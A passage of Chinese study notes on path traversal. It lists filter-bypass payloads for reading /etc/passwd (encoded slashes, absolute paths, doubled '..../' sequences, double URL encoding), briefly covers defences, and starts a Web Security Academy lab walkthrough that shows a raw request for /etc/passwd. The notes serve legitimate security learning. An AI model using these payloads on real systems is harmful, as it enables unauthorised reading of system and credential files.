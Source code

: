 检查正斜杠就用反斜杠。

```bash
\/\/etc/passwd
```

有时直接删除黑名单的特殊字符，如 ../../，再去下载过滤后的文件名。可以直接尝试绝对路径的文件。

```bash
/etc/passwd
```

也要检查它有没完全剔除，还是只是剔除第一个字符。比如本次剔除的是 .. 或 ../ 字符，那就多给一个看是不是剔除的不对。

```bash
..../..../..../etc/passwd
....//....//....//etc/passwd
```

双重编码特殊字符。具体原理见 [Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](#Lab%3A+File+path+traversal%2C+traversal+sequences+stripped+with+superfluous+URL-decode)

```bash
%252fetc%252fpasswd
```

## 防御

限定以某文件结尾。

现有有些应用下载文件都不靠文件名作为标识，而是上传文件后返回一个 Token，通过 Token 下载文件，估计在数据库里存了 Token 和文件名映射关系。

## 靶场

### Web Security Academy⚒️

#### Lab: File path traversal, simple case

题目提示：在产品图片存在目录遍历

这里新手容易忽略的是，BurpSuite HTTP History 默认不显示图片，需要主动勾选进行展示。

直接获取没得到文件内容，说明可能拼接了文件路径。

```http
GET /image?filename=/etc/passwd HTTP/2
Host: 0a3500ac03db485180d776e7005e0046.web-security-academy.net
Cookie: session=sN3NMychB0F02a9vgCv04BmOdvELunj9
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.31
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a3500ac03db485180d776e7005e0046.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"
```